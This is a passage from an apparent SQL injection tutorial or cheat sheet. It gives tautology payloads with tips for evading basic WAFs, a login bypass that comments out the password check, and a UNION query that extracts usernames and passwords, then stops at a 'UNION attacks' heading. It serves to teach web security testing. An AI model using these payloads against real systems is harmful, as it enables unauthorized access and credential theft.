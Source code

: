 ```sql
OR 1337=1337--
OR 1337=1337;--
OR 'rAnd0m'='rAnd0m
```

> You should try with numbers other than `1` an strings other than `a`, because basic WAFs mith block such payloads.

This is an example of how this would look in a real world scenario:

```http
GET /products?category={{ injection 1337=1337-- } url-all } HTTP/1.1
```

```sql
SELECT * FROM products WHERE category='{{ injection ' OR 1337=1337-- }}' AND released=1
```

### Subverting application logic

Sometimes application logic (typically checks) is evaluated via the results of a query. This would be your **typical login form** or _"is admin?"_ thing.

You can use the **same payloads as above** and try to be a little bit imaginative. Imagine there's a login form wich could execute a query like the following:

```sql
SELECT * FROM users WHERE username='wiener' AND password='bluecheese'
```

If you login with username <code><smart-variable variable="username" default-value="administrator"></smart-variable>'--</code> and blank password, you could login as the administrator user like this:

```sql
SELECT * FROM users WHERE username='{{ username administrator }}'--' AND password='';
```

### Retreieving data from other database tables

Here is where the things start getting really interesting.
You can technically get data from other tables using more advanced SQL queries.
One of the ways is via the `UNION` keyword.

For example, imagine the following legit query:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

You could get other data like users and passwords using `UNION`:

```sql
SELECT name, description FROM products WHERE category='{{ injection ' UNION SELECT username, password FROM users-- }}'
```

Read more on the [next section](#union-attacks).

## UNION attacks
